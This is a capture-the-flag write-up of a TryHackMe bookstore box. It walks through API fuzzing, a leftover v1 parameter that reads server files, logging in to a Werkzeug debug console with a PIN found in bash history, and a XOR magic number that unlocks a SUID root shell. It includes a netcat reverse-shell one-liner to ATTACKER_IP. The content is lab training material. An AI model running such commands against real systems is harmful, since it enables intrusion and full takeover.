This box is rated medium difficulty on THM. It involves us discovering an old API parameter that allows us to read files on the web server. Using this grab the PIN code for a Werkzeug debug console lets us get a reverse shell on the system through Python expressions. Finally, we reverse engineer an ELF binary to escalate privileges and obtain root access over the box.

_A basic level box with basic web enumeration and REST API Fuzzing._

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80,5000 -sCV 10.65.178.199 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 17:01 -0400
Nmap scan report for 10.65.178.199
Host is up (0.044s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

There are three ports open:
- SSH on port 22
- An Apache web server on port 80
- A Werkzeug web server on port 5000

## Web Enumeration
Not a whole lot we can do with that version of OpenSSH other than username enumeration, so I fire up Ffuf to search for subdirectories and Vhosts on the websites. Default scripts reveal a disallowed entry on the higher-port server for an `/api` endpoint which is very interesting.

First, I'll do some light enumeration on each site to get a basic idea of what the applications are used for and how we may go about exploiting them. The Apache server hosts a Bookstore webpage that lets us browse books in stock, however it doesn't query a database so any type of SQL injection there is out of question.


There is a link to a login page but attempting to login or signup does not work. Inspecting the network tab under my browser's developer tools show that this isn't making a POST request anywhere.



### Werkzeug Server
Since there isn't much of an attack surface on this site, I hop over to the Werkzeug server. The landing page discloses that it is used for REST APIs which aligns with the entry in the _robots.txt_ file.



A REST API (Representational State Transfer API) is a way for clients (like browsers or scripts) to interact with a web server using standard HTTP methods such as GET, POST, PUT, and DELETE. It exposes resources (like users or files) through URLs, and operations on those resources are performed statelessly - each request contains all the information needed for the server to process it. Responses are typically returned in formats like JSON, making them quite easy for applications to consume.

Looking at the results for subdirectories on the Werkzeug server shows that same `/api` directory as well as debug console.

```
$ ffuf -u http://10.65.178.199:5000/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.178.199:5000/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

api                     [Status: 200, Size: 825, Words: 82, Lines: 12, Duration: 44ms]
console                 [Status: 200, Size: 1985, Words: 411, Lines: 53, Duration: 47ms]
```

This console page is protected by a PIN that we can get from various places, however we'd need to have shell access or be able to read certain files on the system.



## API Exploitation
Navigating to the `/api` endpoint, we're given documentation for the API routes in place for the bookstore. 



### Discovering Hidden Parameter
Fuzzing for any other common ones doesn't return anything interesting, so we'll have to exploit the book endpoint somehow.

```
$ ffuf -u http://10.65.178.199:5000/api/v2/resources/books/FUZZ -w /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.178.199:5000/api/v2/resources/books/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

all                     [Status: 200, Size: 17010, Words: 3749, Lines: 486, Duration: 50ms]
:: Progress: [12334/12334] :: Job [1/1] :: 452 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

It seems like this book API takes in a few different parameters, also allowing us to combine them in a single request. For now, I start fuzzing for unlisted parameters which could be left over from development.

That doesn't return anything, but since the API **v2** is in use, I figured there must be a **v1** that could potentially still be exposed.

```
$ ffuf -u 'http://10.65.178.199:5000/api/v1/resources/books?FUZZ=1' -w /opt/seclists/Discovery/Web-Content/raft-small-words.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.178.199:5000/api/v1/resources/books?FUZZ=1
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 46ms]
id                      [Status: 200, Size: 237, Words: 53, Lines: 10, Duration: 45ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 49ms]
show                    [Status: 500, Size: 23076, Words: 3277, Lines: 357, Duration: 48ms]
:: Progress: [43007/43007] :: Job [1/1] :: 479 req/sec :: Duration: [0:01:37] :: Errors: 0 ::
```

Repeating the process for **v1** APIs gives us an interesting endpoint named 'show'. This is pretty vague but while trying to read files on the system, I get a successful response containing the contents of `/etc/passwd`.



### Shell via Debug Console
Now that we can successfully read files on the server, I grab the debug console's PIN code from `/home/sid/.bash_history` and use it to authenticate on that page. I also tried to grab Sid's RSA private key to login over SSH, but nothing was found.



This console allows us to execute Python expressions in the context of the application. A simple test for a math equation confirms this.



We're able to import Python's OS module to execute commands, but it seems they're not reflected to us. Though this isn't a problem and we can just pass in a Bash one-liner to get a reverse shell on the system as Sid since they're the one running it.

```
>>> import os
>>> os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP 443 >/tmp/f')
```



At this point we can grab the user flag under their home directory and start looking at routes to escalate privileges to root user.

## Privilege Escalation
Alongside the first flag is a binary with the SUID bit set on it. Running the file command against it confirms that we're dealing with an ELF and executing it shows that we must pass in a magic number for a correct result.



I run `ltrace` and `strace` against it but don't find much, however looking at its strings most likely shows that if we get the magic number right, it drops us into a root Bash shell.



### Reverse Engineering ELF
I end up transferring it to my local machine via the web server on port 80 and decompiling  it with Ghidra for a better look at what the code is doing. Looking through the main function, we can see the following code: 

```
local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
```



This code is building our "magic number" by XOR'ing three values together:

```
local_14 = local_1c ^ 0x1116 ^ local_18;
```

To trigger the root shell, we need that result to equal **0x5dcd21f4**, so we're able to rearrange the equation using the properties of XOR (as it's reversible):

```
local_1c = local_14 ^ 0x1116 ^ local_18
```

From there, any pair of values for _local_1c_ and _local_18_ that XOR to that final constant will satisfy the check and execute `/bin/bash -p` (which spawns a shell preserving root privileges). Since we have both values for _local_14_ and _local_18_ we can plug them into the equation via Python in our CLI.

```
$ python3
Python 3.13.12 (main, Feb  4 2026, 15:06:39) [GCC 15.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x1116 ^ 0x5db3 ^ 0x5dcd21f4
1573743953
```

After entering the magic number, we're granted full privileges over the system. 



Finally, we can grab the root flag under their home directory to complete this challenge. I really enjoyed this box since API hacking is a great skill to have and isn't too hard to exploit. I hope this was helpful to anyone following along or stuck and happy hacking!
